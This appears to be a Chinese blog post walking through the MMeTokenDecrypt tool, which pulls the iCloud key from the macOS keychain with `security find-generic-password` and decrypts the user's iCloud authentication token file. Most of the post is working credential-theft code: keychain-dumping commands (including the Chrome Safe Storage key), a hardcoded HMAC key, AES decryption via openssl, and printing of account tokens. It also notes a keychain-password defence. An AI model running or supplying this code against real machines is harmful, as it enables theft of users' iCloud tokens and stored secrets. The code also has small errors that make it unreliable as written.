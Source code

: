 ```yaml
---
title: MMeTokenDecrypt.py
date: 2017-07-08 08:10:53
tags: [iOS]
---
```




# MMeTokenDecrypt实践操作

- 本文实践操作基于[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)项目。
- 查看翻译请访问：[MMeTokenDecrypt翻译](https://github.com/mail2chensh/OSG_Leaning/blob/master/002_MMeTokenDecrypt/MMeTokenDecrypt%E7%BF%BB%E8%AF%91.md)
- 实践者： Chensh

## 前言背景

在MacOS系统的深处，有一把神秘的小钥匙。这把密钥由44个随机字符组成，它的作用非常大。

有多大？它可以用来解开我们存储在系统里面的授权Token！

我们都知道（未读原文前我根本就不知道，😆），在MacOS里，用户的授权Token都存储在**/Users/\*/Library/Application Support/iCloud/Accounts/**这个目录下，以用户的**iCloud账号**（邮箱）为名的文件，其存储格式是**DSID**，这个文件是加密过的。

那平常系统需要用到这个文件里面存储的token的时候，是如何解密的呢？

这里涉及另外一个密钥，这个密钥存储在用户的**keyChain**里面，一个名为iCloud的条目。

系统需要解密这个DSID文件时，就会从keyChain里面拿出解密密钥，进行**base64编码**，作为**Hmac算法**的**消息体**输入，然后和上面提到的神秘小钥匙进行了**MD5加密**，得到一把新的钥匙。

而这个DSID文件，是采用128位AES的CBC加密模式加密的。CBC加密模式就是密码分组链接模式，这种模式是先将明文切分成若干小段，然后每一小段与初始块或者上一段的密文段进行异或运算后，再与密钥（也就是上面**新**产生的那把钥匙）进行加密。当然，这个过程还混合了一个空的初始化向量进行计算。

所以，根据上文的分析，只要我们找到系统的神秘小钥匙和拿到keyChain里面iCloud的存储条目，那我们就可以尝试解密DSID这个文件，拿到用户的Token。

而这里的神秘小钥匙已经被原文作者找到了并提供出来，作者在原文里主要阐述的是**keyChain里面存在的bug，导致解密密钥容易被泄露**。

那么接下来，我们就开始复现作者的思路。



## keyChain的不安全性

本来keychain作为用户存储密码的载体，应该是做到很安全的，但这里有一个原文作者认为的bug，恶意用户可以根据这个bug来绕过钥匙串密码从而拿到keychain里面存储的条目。当然，这个绕过方式是有条件的，以下分别介绍两种情况。

#### 当用户没有设防

我们首先打开keychain应用(Spotlight里面输入Keychain Access进行搜索)。

然后在左侧**种类**栏目**密码**一项进行选中，右侧就会出现存储在本机上的所有安全信息存储。这里进行筛选，找到我们的试验目标：**Chrome Safe Storage**。这个条目存储了谷歌Chrome浏览器的安全存储信息解密密钥。

![](https://ws1.sinaimg.cn/large/006tKfTcgy1fhb0jtvyiqj31kw087400.jpg)

那要如何拿到这个解密密钥呢？上文我们已经提及到了，这里打开命令行。输入以下命令：

```Shell
$ security find-generic-password -ga 'Chrome'
```

这里使用到了 security命令，它是非常强大命令行安全工具，之前我们[重签](http://chensh.top/2017/06/30/Patching-and-ReSigning-iOS-Apps/)的那篇文章里面也使用到了这个命令去查找有效的证书。

这里的参数解释如下：

- **find-generic-password** 命令参数，是使用“查找密码”的功能。
- **-a**，这个参数是匹配类型为“账户”的，用于过滤。
- **-g**，这个参数是将查询到的密码显示出来。

运行这个命令后，系统马上就会弹出一个提示框，如下：

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fhb0zu1parj30ok0badhp.jpg)



那么到这里，只要用户点击了“允许”按钮，那么就可以马上得到存储在keychain里面的密钥了。如下：

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fhblsp9swej30zg0ngtd0.jpg)

这里security请求钥匙串访问的权限，用户点击“允许”后，就能读取到相应的password。

假如有人未经你允许擅动你电脑，这个时候就可以轻而易举的窃取了你密码。

当然，如果是远程的恶意黑客，那么有可能会无限次弹出弹窗提示，直至逼到你点击“允许”按钮为止。

那我们该如何防范这种情况呢？请往下看。



#### 当用户开启了“询问钥匙串密码”选项

我们回到刚刚keychain 里面那个chrome safe storage的条目，右键选择**显示简介**。

切换到**访问控制**的面板，将**询问钥匙串密码**选中。

![](https://ws3.sinaimg.cn/large/006tKfTcgy1fhblzkxuz7j30ty0jkgnl.jpg)



这里有另外一个小bug，就是keychain里面的更改需要重复两次操作，才能真正的修改成功，当我们勾选了这个选项，切换到*属性*然后再切换回来的时候，发现这个选项又没有被选中，需要再重复操作一遍才行。

然后我们回到命令行，重新输入上面security的命令，这一次我们发现弹窗出来不一样了。这里需要我们输入钥匙串密码。

![](https://ws4.sinaimg.cn/large/006tKfTcgy1fhbm32ymorj30oe0b8tao.jpg)

所以当我们开启了这个选项，就算别人偷偷用你的电脑，没有你的钥匙串密码，也无法得到其中的安全信息。这里就多了一道防护。



以上的操作步骤，我们主要对是否开启钥匙串密码的安全性做一点讨论。接下来我们要使用脚本来自动获取密码，并且结合系统的神秘小钥匙，用来解密我们iCloud条目里面的Token。



## MMeToenDecrypt.py 解析

先引入所需要的库。

```python
import base64, hashlib, hmac, subprocess, sys, glob, os, binasicc
from Foundation import NSData, NSPropertyListSerialization
```

- base64用来加密iCloud的钥匙。
- hashlib用于计算md5
- subprocess用于fork一个子进程，并运行一个外部程序。

按照上面的方法，使用security命令获取iCloud条目的密码。

```Shell
security find-generic-password -ws 'iCloud'
```

- -w 参数是用于仅显示密码项。
- -s 参数是用于指定类型为server的条目，并匹配后面的关键词。

在python里面，我们可以是subprocess库来运行外部程序，将shell环境下命令运行的结果返回到本程序。如果没有获取到，则打印报错信息，再退出程序。

```python
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
    print "Error getting iCloud Decryption Key"
    sys.exit()
```

得到iCloud的密码后，我们将其进行base64编码

```python
msg = base64.b64decode(iCloudKey)
```

接下来上场的是我们那把神秘的小钥匙了。

它在所有的Macos版本里面都用于生成Hmac哈希。它是用于解密的关键。

在位于**/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit**路径下的系统库，执行了下面的方法，调用了CCHmac来生成一个Hmac，用于解密秘钥。

```swift
KeychainAccountStorage _generateKeyFromData:
```

```python
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"
```

将上面得到的iCloudKey和系统神秘钥匙使用hmac进行md5计算。

并将我们得到的哈希值进行16进制转换。

```python
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed)
```

我们知道用户的授权Token都存放在**~/Library/Application Support/iCloud/Accounts/** 下，所以要遍历一下该文件夹下面的文件，判断是否为我们所需要的DSID文件(纯数字文件名)。

```python
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Account/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
    try:
        int(x.split("/")[-1])
        mmeTokenFile = x
    except:
        continue
if not isinstance(mmeTokenFile, str):
    print"Could not find MMeTokenFile. You can specify the file manually"
  	sys.exit()
else:
    print "Decrypting token plist -> [%s]\n" % mmeTokenFile
```

接下来我们使用openssl这个命令行工具，将一个空的初始化向量IV和上面已经被16进制转换的密钥，以及我们找到DSID文件，进行128位的AES解密。

```python
decryptedBinary = subprocess.check_output("openssl enc -d -aes-128-cbc -iv '%s' -K %s < '%s'" % (IV, hexedKey, mmeTokenFile), shell=True)
```

这里得到的decryptedBinary是解密出来的二进制数据，我们使用Foundation库里面的类来将它转化为可读取的plist格式。

然后遍历这个plist格式对象，将其中的内容打印出来。

```python
binToPlist = NSData.dataWithBytes_length_(decryptedBinary, len(decryptedBinary))

tokenPlist = NSPropertyListSerialization.propertyListWithData_options_format_error_(binToPlist, 0, None, None)[0]

print "Successfully decrypted token plist!\n"
print "%s [%s -> %s]" % (tokenPlist["appleAccountInfo"]["primaryEmail"], tokenPlist["appleAccountInfo"]["fullName"], tokenPlist["appleAccountInfo"]["dsPrsID"])
print tokenPlist["tokens"]
```



至此，我们的重现步骤到此结束，整个流程下来你可以发现，只要用户不小心点击了“允许”按钮，我们就很容易的窃取到了iCloud里面的Token。

你可以尝试在自己的机子上运行这份代码，假如能够打印出来相关的iCloud账号Token，那就说明你成功重现了。

![](https://ww1.sinaimg.cn/large/006tKfTcgy1fgpsk3r7b3j308c08c3ys.jpg)






